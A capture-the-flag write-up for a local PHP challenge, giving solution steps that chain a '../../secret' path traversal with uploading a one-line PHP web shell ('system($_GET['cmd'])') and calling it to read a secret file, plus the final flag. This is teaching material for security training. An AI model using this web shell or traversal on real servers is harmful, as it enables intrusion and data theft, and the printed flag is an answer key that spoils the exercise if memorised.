 # Writeup

Github Repo - https://github.com/kavyaharlalka/CtfFileUpload

## Overview

The goal of this challenge is to use a PHP file inclusion vulnerability and a file upload exploit to obtain access to secret files on the server. A web application that enables users to upload files and see them on a website is the subject of the challenge. However, a PHP file inclusion attack can take advantage of the application's vulnerability to include and run any PHP code. The program also has a file upload capability that is open to file upload attacks, enabling attackers to upload malicious PHP files to the server. To complete the challenge, competitors must upload a PHP shell to the server and execute the shell using the PHP file inclusion vulnerability. The hidden directory, which houses the flag, may then be found by browsing the server's filesystem from that point.

## Challenges

Challenge 1: Exploit a vulnerability in the given PHP file inclusion functionality.

Challenge 2: Exploit a vulnerability in the given PHP file upload functionality.


## Solution :-

1.	Access `localhost:8000`
2.	Go to Challenge 1
3.	Search for `../../secret`
4.	Copy the flag you see
5.	Go back to `localhost:8000`
6.	Go to Challenge 2
7.	Upload a php script (let’s say backdoor.php) with `<?php system($_GET['cmd']); ?>`
8.	Access `localhost:8000/challenge2/uploads/backdoor.php?cmd=cat%20secret.php`
9.	Check the network tab with the above request; you will find the flag in the response
10.	Concatenate both flags and enclose them in `CTF_SDaT{}` to get the final flag

## Final Flag 

CTF_SDaT{f1l3_inclu510n_vuln3r4b1l1ty_@nd_uPload_3xplo1t}